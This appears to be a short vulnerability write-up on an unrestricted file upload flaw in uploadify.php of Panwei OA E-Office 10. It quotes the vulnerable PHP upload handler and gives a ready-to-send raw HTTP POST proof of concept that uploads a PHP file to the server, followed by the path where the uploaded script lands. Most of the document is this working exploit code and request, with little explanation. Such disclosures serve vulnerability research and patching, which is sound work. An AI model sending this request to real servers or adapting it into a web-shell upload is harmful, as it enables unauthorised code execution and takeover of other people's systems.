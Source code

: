 # Panwei OA E-Office uploading vulnerability

## Vulnerability Description

The upload of files in uploadify.php is not strictly filtered, resulting in unlimited uploading of files. Attackers can directly obtain website permissions through this vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Panwei OA E-Office10</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629192036675-609c0b9d-2484-4e61-bb92-da8c1ce0067c-1814947.png)

```php
<?php
include_once("inc/vulnerability.php");
if (!empty($_FILES)) {
    $tempFile = $_FILES['Filedata']['tmp_name'];
    //获取扩展名
    if (!strrpos($tempFile, ".")) {
        echo "";
        exit;
    }
    $fileExt = substr($tempFile, strrpos($tempFile, ".") + 1);
    $attachmentID = createFileDir();
    $uploadPath = $_REQUEST["uploadPath"];

    if (trim($uploadPath) == "") {
        $targetPath = $_SERVER['DOCUMENT_ROOT'] . '/attachment/' . $attachmentID;
    } else {
        $targetPath = $uploadPath . '/sent/attachment/' . $attachmentID;
    }

    if (!file_exists($targetPath)) {
        mkdir($targetPath, 0777, true);
    }

    $targetFile = str_replace('//', '/', $targetPath) . "/" . $_FILES['Filedata']['name'];
    isIllegalUploadFile($targetFile);
    move_uploaded_file($tempFile, iconv("UTF-8", "GBK", $targetFile));
    echo $attachmentID;
}

function createFileDir() {
    global $ATTACH_PATH;
    mt_srand((double) microtime() * 1000000);
    $RADOM_ID = mt_rand() + mt_rand();
    if (!file_exists($ATTACH_PATH . $RADOM_ID))
        return $RADOM_ID;
    else
        createFileDir();
}

?>
```

Verify POC

```php
POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Connection: close
Content-Length: 259
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4
Accept-Encoding: gzip

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="2TrZmO0y0SU34qUcUGHA8EXiDgN.php"
Content-Type: image/jpeg

<?php echo "2TrZmO0y0SU34qUcUGHA8EXiDgN";unlink(__FILE__);?>

--e64bdf16c554bbc109cecef6451c26a4--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691804423513-f15a6608-1744-47f5-9310-f651ac47a189.png)

```php
/attachment/3466744850/xxx.php
```